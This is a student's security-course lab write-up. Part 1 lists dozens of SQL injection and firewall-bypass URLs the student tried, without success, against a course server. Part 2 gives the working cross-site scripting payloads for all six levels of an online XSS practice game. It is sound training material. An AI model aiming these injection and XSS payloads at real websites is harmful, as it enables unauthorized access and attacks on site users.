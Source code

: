 # Writeup 1 - Web I

Name: Marco Roxas
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Marco Roxas


### Part 1 (40 Pts)

Such a Quick Little, website!  [http://142.93.136.81:5000/](http://142.93.136.81:5000/)

I wasn't able to find a way to obtain the flag despite a good hint from an instructor. There's a WAF (Web App Firewall) that is active on the server which I'm not able to find a way to bypass in the time allotted.

Some URL strings that I tried were the following (with some comments):

~~~~
http://142.93.136.81:5000/item?id=OR'1'='1'
http://142.93.136.81:5000/item?id=1&NOT('1'!='1')
http://142.93.136.81:5000/item?id=0&!(1!=1)
http://142.93.136.81:5000/item?id=R O{$id} 1=1;--
http://142.93.136.81:5000/item?id=R "O{$id}" 1=1;--
http://142.93.136.81:5000/item?id=R"O{$id}"1=1;--
http://142.93.136.81:5000/item?id=1OR"O{$id}"1=1;--
http://142.93.136.81:5000/item?1=1&id=1&1=1
http://142.93.136.81:5000/item?1 OR 1&id=1;--
http://142.93.136.81:5000/item?1&id=1;--
http://142.93.136.81:5000/item?1&id=1
http://142.93.136.81:5000/item?1&id=1&1OR1
http://142.93.136.81:5000/item?1&id=1 OR 1=1
~~~~

Basic ideas were tried above, some of which triggered the WAF. It was hoped that using the PHP `$` with variable names can result in bypassing the WAF.

~~~~
http://142.93.136.81:5000/item?id=0 {$name[1]}{$name[2]} 1=1;--
http://142.93.136.81:5000/item?id=0 $name[1]$name[2] 1=1;--
http://142.93.136.81:5000/item?id=0 $name{2}$name{3} 1=1;--
http://142.93.136.81:5000/item?id=0 $name{0}$name{2} 1=1;--
http://142.93.136.81:5000/item?id=0 "$name{1}$name{2}" 1=1;--
http://142.93.136.81:5000/item?id=0&$name[1]$name[2] 1=1;--
http://142.93.136.81:5000/item?id=0 O$name[2] 1=1;--
http://142.93.136.81:5000/item?id=0 O$name[3] 1=1;--
http://142.93.136.81:5000/item?id=0 $name[1]R 1=1;--
http://142.93.136.81:5000/item?id=0 $name[2]R 1=1;--
http://142.93.136.81:5000/item?id=0 $name[3]R 1=1;--
http://142.93.136.81:5000/item?id=O {$id}R 1=1;--
http://142.93.136.81:5000/item?id=0 and $name{1}$name{2} 1=1;--
~~~~

This is a continuation of utilizing `$`. A nonsensical reference of `$name[1]` was tried since the name field started with `Fortnite` (the word OR is embedded).

~~~~
http://142.93.136.81:5000/item?id=0 " . " OR 1=1;--"
http://142.93.136.81:5000/item?id=0 " . echo \'O\' . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 " . echo "O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O" . "R 1=1;---"
http://142.93.136.81:5000/item?id=0 "."O"."R 1=1;--"
http://142.93.136.81:5000/item?id=2 O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=1 O\0x52 1=1;--"
http://142.93.136.81:5000/item?id=1 O\x52 1=1;--"
http://142.93.136.81:5000/item?id=0 O\122 1=1;--"
http://142.93.136.81:5000/item?id=0 O\R 1=1;--"
http://142.93.136.81:5000/item?id=0 Or 1=1;--"
http://142.93.136.81:5000/item?id=0 \OR 1=1;--"
http://142.93.136.81:5000/item?id=0 \O\x52 1=1;--"
http://142.93.136.81:5000/item?id=1 O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=1 O" "R 1=1;--"
http://142.93.136.81:5000/item?id=0 OR 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O_R 1=1;--"
http://142.93.136.81:5000/item?id=0 ORO 1=1;--
http://142.93.136.81:5000/item?id=0 " . $name[2] . $name[3] ." 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O" . "R" ." 1=1;--"
http://142.93.136.81:5000/item?id=0 O{$chr(0x52)} 1=1;--"
http://142.93.136.81:5000/item?id=0 O{$chr(82)} 1=1;--"
http://142.93.136.81:5000/item?id=0 . O{$chr(82)} . 1=1;--"
http://142.93.136.81:5000/item?id=0 {$name[1]}{$name[2]} 1=1;--"
http://142.93.136.81:5000/item?id=0 $OR 1=1;--"
http://142.93.136.81:5000/item?id=0 \O\R 1=1;--
http://142.93.136.81:5000/item?id=0 O{$nul}R 1=1;--
http://142.93.136.81:5000/item?id=0 OQ%08R 1=1;--
http://142.93.136.81:5000/item?id=0 O{$_}R 1=1;--
http://142.93.136.81:5000/item?id=0 O/R 1=1;--
http://142.93.136.81:5000/item?id=0 O.R.1=1;--
http://142.93.136.81:5000/item?id=0 CHAR(79)CHAR(82) 1=1;--
http://142.93.136.81:5000/item?id=999999999999999999999999999999999
http://142.93.136.81:5000/item&1=1
http://142.93.136.81:5000/item?id=$PHP_MINOR_VERSION
http://142.93.136.81:5000/item?id=0 O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 O#R 1=1;--
http://142.93.136.81:5000/item?id=0&O##R&1=1;--
http://142.93.136.81:5000/item?id=0+O##R+1=1;--
http://142.93.136.81:5000/item?id=0+O%%R+1=1--
http://142.93.136.81:5000/item?id=0 \O\R 1=1; --
~~~~

A few more ideas were tried as shown above, such as utilizing other encodings `0x52` and the SQL `CHAR()` function (which was not the correct usage).  Interestingly using `$PHP_MINOR_VERSION` triggered the WAF while a shorter `$PHP_MIN` did not. Bypassing the WAF was also attempted by using the `#` or `%`. For many of these a space character may have been needed between the the semicolon and comment, ie, `; --`.

The few things I tried were in the lines of `http://142.93.136.81:5000/item?id=0 $_GET['key'] 1=1; --&key=OR` in the hopes of bypassing WAF via php processing.

Also, I noticed the result was one of a blank page, a redirect to the main page, an internal server error, an error sql injection attempted, and a not found message.

There is a flag obtainable on the main web page via port 80 of the same server (`CMSC389R-{h1dd3n_1n_plain_5ight}`), however that's not part of this assignment.

### Part 2 (60 Pts)
Complete all 6 levels of:

[https://xss-game.appspot.com](https://xss-game.appspot.com)

The following inputs were used:

#### Level 1
`<script>alert('Hi');</script>` This level just needed javascript within an html `<script>` tag.

#### Level 2
`<p onclick="alert('Hi');">Hi</p>` This level displayed an element and a `<script>` tag couldn't be used. Hence the alternative `onclick` attribute was tried and worked.

#### Level 3
`https://xss-game.appspot.com/level3/frame#2.jpg'/><script>alert('Hi');</script>` An image tag needed to be terminated for this level. By right-clicking on the resulting broken image icon and selecting View Image, the proper syntax to use was shown, and with some trial and error a string with starting `'/><script>` was found to work for it completed the html properly.

#### Level 4
`'+alert(5)+'` I realized that I needed to terminate the quote before introducing javascript code and then start a new quote afterwards (so the payload starts and ends with `''`, the empty string).

#### Level 5
`https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('Hi')` Entering this in the URL address bar allowed an alert to be displayed, however I wasn't sure if this was the correct way, but it worked. I took a look at the page code to see that the redirect goes to `confirm.html` and a simple replacement was all that was necessary. I learned of the `javascript:` trick by looking for ways for the browser to run javascript.

#### Level 6
`https://xss-game.appspot.com/level6/frame#data:,alert('Hi');` Also entering this in the URL address bar allowed an alert to be displayed to load the external file, which is in actuality is a data URL. It helped to view the browser console of any messages to know how it was used as a src attribute.
